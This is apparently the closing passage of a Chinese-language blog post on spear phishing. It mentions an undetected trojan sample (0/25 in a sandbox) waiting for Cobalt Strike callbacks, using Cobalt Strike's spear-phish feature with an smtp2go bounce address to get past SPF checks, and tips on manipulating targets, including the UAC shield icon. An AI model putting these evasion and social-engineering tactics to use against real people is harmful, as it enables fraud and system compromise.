

微步在线：

[https://s.threatbook.cn/report/file/576281eabe371ce01e3e23048652e878022144eca9696bf1dbf7741bd6e30c86/?env=win7_sp1_enx64_office2013](https://s.threatbook.cn/report/file/576281eabe371ce01e3e23048652e878022144eca9696bf1dbf7741bd6e30c86/?env=win7_sp1_enx64_office2013)

0/25的战绩，一个都未杀出：


更新了fff.jpeg后，我只需要在cobaltstrike上等待新上线的机器即可。。。

只要不停的发。。

## 0x11 Cobaltstrike Spear Phish

Cobaltstrike已经具备了伪造邮件的功能，不用再记忆swaks命令了。

参考：[https://cobaltstrike.com/help-spear-phish](https://cobaltstrike.com/help-spear-phish)



为了使得smtp2go绕过spf检查，所以在`Bunce to`填写xx@smtp2go.com





这两天我的样本被沙箱疯狂分析：



不过这也正常…

## 0x12 总结

其实钓鱼：

*   多搜集信息
*   多在附件里加一些目标相关的信息，降低心理防御
*   多换位思考一下就都明白了
*   多一些心理暗示的东西（木马图标、程序描述、UAC?）
*   可广式撒网
*   木马一定要可靠
*   白利用似乎只适合维持权限

网上那么多骗子，和防骗教育，为什么总是有人上钩，100个人没有，那1万个总会有。

附加了UAC属性的应用程序上面会有一个盾牌，有些用户误以为它是安全的。

